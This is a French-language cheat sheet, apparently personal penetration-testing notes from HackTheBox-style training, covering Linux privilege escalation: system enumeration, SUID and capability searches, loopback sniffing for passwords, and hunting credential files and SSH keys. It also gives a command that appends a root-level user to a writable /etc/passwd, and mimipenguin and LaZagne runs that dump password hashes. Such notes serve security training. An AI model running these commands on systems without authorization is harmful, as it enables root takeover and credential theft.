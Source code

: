 # Privilèges
Tout est un fichier, même le matériel. Ils répondent donc aux permissions standards de fichiers
r -	read
w	- write
x	- execute
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-rw-r----- 1 root shadow 1751 May  2 09:31 /etc/shadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Propriétaire: root - groupe: shadow
Premier trait est le type. Suivis de 3 groupes de 3. Propriétaire, Groupe du Propriétaire, autre

# Énumération
* Nom et groupe:  ```id```
* usagers: 	```cat /etc/passwd```
	* login_name : encrypted_password : UID : GID : comment : home folder : login_shell
	* encrypted_password x si dans /etc/shadow
	* nologin si peut pas se connecter
* nom de machine: ```hostname```
* système:
	```shell
	cat /etc/issue
	cat /etc/os-release
	uname -a
	arch
	```
* Processus:
	```shell
	ps auxww
	#suivre en temps réel
	watch -n 1 "ps -aux | grep pass"
	#Très efficace si accessible
	./pspy
	```
##  Tâches
 **cron** est l'ordonanceur de tâches sous Linux
* ```ls -lah /etc/cron*```   cron.daily, cron.hourly, ...
* ```crontab -l``` 	tâches de l'utilisateur courrant (utiliser aussi avec sudo)
* ```grep "CRON" /var/log/syslog```
* ```tail -f /var/log/cron.log```

## Applications et packages
```dpkg -l```	Debian

## Fichiers en écriture
* dossiers ```find / -writable -type d 2>/dev/null | grep -v "/proc*"```
* fichiers ```find / -writable -type f 2>/dev/null | grep -v "/proc*"```
* fichiers de l'utilisateur: `-user [username]`
* fichiers de groupes: `-group [group]`

## Disques
```mount```
```cat /etc/fstab```	fichiers montés au lancement
```lsblk```	disques et partitions disponibles

## Kernel modules
```lsmod```			liste
```/sbin/modinfo [module]```	détails

## SUID et GUID
Permet d'exécuter comme propriétraire ou groupe du fichier. “s” ou “S” dans les droits
SUID ```find / -perm -u=s -type f 2>/dev/null```
GUID ```find / -perm -g=s -type f 2>/dev/null```

## Capabilities
Permet de donner certains droits pour certaines actions dangereuses au processus
```/usr/sbin/getcap -r / 2>/dev/null```
**cap_setuid+ep** est très intéressant

## SUDO
Dans /etc/sudoers
Droits de l'usager courant: ```sudo -l```

**utiliser GTFOBins pour savoir comment les abuser**

## Traces usagers
Vérifier dossiers utilisateurs
Variables d'environment: ```env```
**.bashrc** fichier de config bash
**.bash_history** pour l'historique bash

## Config de serveur web
* Regarder les fichiers de config web
* /etc/hosts

## Réseau
Adapteurs réseau:
* ```ifconfig```
* ```ip a```
routes: 
* ```route```
* ```routel```
connexions actives:
* ```netstat```
* ```ss -anp```
Autres:
```
ss -t state listening
netstat -antup
netstat -tunlp
```
tcpdump peut attraper du traffique intéressant
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
tcpdump -i lo -A | grep "pass"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## Firewall
```iptables``` (requière root)
```iptables-persistent``` package sauvegarde dans fichiers ```/etc/iptables``` par défaut
commande ```iptables-save``` sauvarge certains fichiers


https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://book.hacktricks.xyz/linux-hardening/privilege-escalation

# Automatisation
/usr/bin/unix-privesc-check
LinEnum
/usr/share/peass/linpeas/linpeas*

# Syslog
```cat /var/log/syslog | grep -i <ce que tu veux>```

# Recherche de fichiers
Nom du fichier
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#récursive sans casse
find /mnt/Finance/ -name *cred*
#simple
find *cred*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cherche dans le contenu
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
grep -rn /mnt/Finance/ -ie cred
#Limite le contenu
grep -r -E -o ".{0,10}pass.{0,10}"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Combinaisons
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#HtB cherche .conf .config  .cnf
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
#HtB Cherche user, password ou pass dans les .cnf
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
#HtB Cherche dans fichier db
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
#clef SSH (Utilise mots contenue dans une clef)
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
#mots intéressant dans les logs
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Mot de passe
Dans /etc/shadow, mais /etc/passwd prend précéence si il contient un hash.
Si on peut écrire, il est facile de créer un nouvel utilisateur ou changer un mot de passe

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#générer un hash de mot de passe avec algorithm crypt
openssl passwd w00t
#hash généré: Fdzt.eqJQ4s0g
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Utiliser mimipenguin pour extraire des hash en mémoire, doit être admin
```shell-session
sudo python3 mimipenguin.py
sudo bash mimipenguin.sh 
```
Lazagne pour extraire hash de différentes sources
```shell-session
sudo python laZagne.py all
```